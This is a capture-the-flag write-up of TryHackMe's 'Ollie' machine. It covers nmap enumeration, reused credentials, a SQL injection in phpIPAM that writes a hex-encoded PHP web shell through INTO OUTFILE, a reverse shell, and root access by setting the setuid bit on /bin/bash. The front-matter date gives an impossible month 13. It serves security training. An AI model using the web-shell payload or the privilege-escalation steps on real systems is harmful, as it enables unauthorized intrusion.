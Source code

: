 ```yaml
---
title: "Ollie"
date: 2025-13-26
draft: false
description: TryHackMe's Good Room
Tags:
- TryHackMe
- Linux
- Medium
---
```


## Enumeration

Lets start with the simple nmap scan and rustscan.
```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-26 11:10 +0545
Nmap scan report for 10.10.17.91 (10.10.17.91)
Host is up (0.18s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 b7:1b:a8:f8:8c:8a:4a:53:55:c0:2e:89:01:f2:56:69 (RSA)
|   256 4e:27:43:b6:f4:54:f9:18:d0:38:da:cd:76:9b:85:48 (ECDSA)
|_  256 14:82:ca:bb:04:e5:01:83:9c:d6:54:e9:d1:fa:c4:82 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-robots.txt: 2 disallowed entries
|_/ /immaolllieeboyyy
| http-title: Ollie :: login
|_Requested resource was http://10.10.17.91/index.php?page=login
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.16 seconds
```

```
PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack
80/tcp   open  http    syn-ack
1337/tcp open  waste   syn-ack
```

Lets enumerate the port 80.
Hmm we spawned on a login page.
![[Pasted image 20250326111427.png]]

Lets enumerate further.
![[Pasted image 20250326111557.png]]

We might get local file inclusion vulnerability here.
Lets check.
Hmm not working.

Doing directory busting gave us many things.
![[Pasted image 20250326111903.png]]
![[Pasted image 20250326111915.png]]


Found many thing but nothing seems interesting.
![[Pasted image 20250326112416.png]]

Hmm lets also see that port 1337.
![[Pasted image 20250326112455.png]]

Interesting.
Lets move forward.
And we got the creds.
![[Pasted image 20250326112621.png]]
Lets try to login on login page.
```
Username: admin
Password: OllieUnixMontgomery!
```

![[Pasted image 20250326112807.png]]

## Exploit

Hmmm.
After searching for possible exploits of `[phpIPAM IP address management [v1.4.5]`,we can find this.
![[Pasted image 20250326113019.png]]

Hmm it was using a sql injection to upload php shell.
Lets try sql injection to test if it is possible.
![[Pasted image 20250326114401.png]]

We can find this in a edit BGP subnet mapping thing.
And we found exact number of columns.
![[Pasted image 20250326114715.png]]
![[Pasted image 20250326114736.png]]

Hmmm lets try to use that exploit we found on exploitdb.
Or we can do this.
```SQL

" Union Select 1,0x201c3c3f7068702073797374656d28245f4745545b2018636d6420195d293b203f3e201d,3,4 INTO OUTFILE '/var/www/html/evil.php' -- -

```

So what happening here is we are using UNION attack and uploaded hexed php web shell by doing `INTO OUTFILE`  into `/var/www/html/yourfile.php` cause `/var/www/html/` is the root directory of web page.
![[Pasted image 20250326120012.png]]
![[Pasted image 20250326115750.png]]

And we can now use this to execute commands.
![[Pasted image 20250326115844.png]]

Now we can get reverse shell by [revshell.com](https://www.revshells.com/)
![[Pasted image 20250326120130.png]]

And we can also get full tty shell from here.
[full tty shell](https://book.hacktricks.wiki/en/generic-hacking/reverse-shells/full-ttys.html)

![[Pasted image 20250326120530.png]]

## Privelege Escalation

We can get a some creds here.
![[Pasted image 20250326121029.png]]

But this was not working for user ollie.
After trying and enumerating different thing,there is the password reuse and we can use same password that we got before for user ollie.
![[Pasted image 20250326121429.png]]

Now lets try to became root.
I tried different exploits and tried to find different thing but nothing worked.
Linpeas is also not working.[linpeas](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS)
Lets also try pspy.[pspy](https://github.com/DominicBreuker/pspy)
After seeing and trying different things,we can see this.
![[Pasted image 20250326124201.png]]

Lets see what is it.
Its nothing.
But we can use it to execute command as root.
```
ollie@hackerdog:/tmp$ cat /usr/bin/feedme
#!/bin/bash

chmod 4777 /bin/bash
# This is weird?
ollie@hackerdog:/tmp$

```

Here we are changing the permission of `/bin/bash` ,giving it with setuid.

![[Pasted image 20250326124516.png]]

And Now we are root.
![[Pasted image 20250326124647.png]]

## Done

And done.
![[Pasted image 20250326124744.png]]

Learned lots of things again.
I hope you are okay,take care :).
